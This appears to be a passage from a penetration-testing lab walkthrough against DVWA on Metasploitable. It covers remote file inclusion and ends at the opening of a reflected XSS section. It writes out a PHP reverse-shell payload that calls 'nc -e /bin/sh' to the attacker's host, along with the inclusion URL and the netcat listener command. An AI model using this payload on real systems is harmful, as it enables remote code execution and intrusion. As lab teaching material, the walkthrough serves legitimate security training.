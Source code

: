 **Remote file inclusion**

It is similar to local file inclusion but it allow an attacker to read any file from any server of the target. This vulnerability allow to execute php file from other server to current server. 

Before going to do Remote file inclusion, we need to do some set up in metasploitable machine.

Command :- nano /etc/php5/cgi/php.ini

ctr+w to open search à allow\_url

turn on the allow\_url\_fopen on | allow\_url\_include on|

This vulnerability allow us to execute php file from other server lets store one php file to our kali sever. A very simple file of php which is,

**<?php** 

**passthru(“nc -e /bin/sh 192.168.1.178 8888”);**

**?>**

Save this file reverse.txt

` `Save this file to the server of kali

Path :- /var/www/html

And open the apache2 service than put this script file path to the dvwa link.

Command :- service apache2 start

Than open the browser and type kali ip we can see Debian web page than type file name of script,  like

Link :- <http://192.168.1.178/reverse.txt>

We are able to see script.

Than go to the dvwa web page link

Redirect the kali sever link here like 

Link:- <http://192.168.1.105/vulnerabilities/fi/?page=include.php>

Remove the include.php and type out url

Link:- http://192.168.1.105/vulnerabilities/fi/?page=<http://192.168.1.178/reverse.txt>

Before pressing enter lets turn on the listner. 

Command :- nc -nvlp 8888

Know press the enter in web page and refresh the web page

We got the shell


**XSS reflected**

Xss reflected vulnerability means attacker can fetch the data of webserver with the help of xss script or java script. In other word thi vulnerability allow an attacker to inject java script code and execute it to the client side.

Go to the xss reflected tab of dvwa.
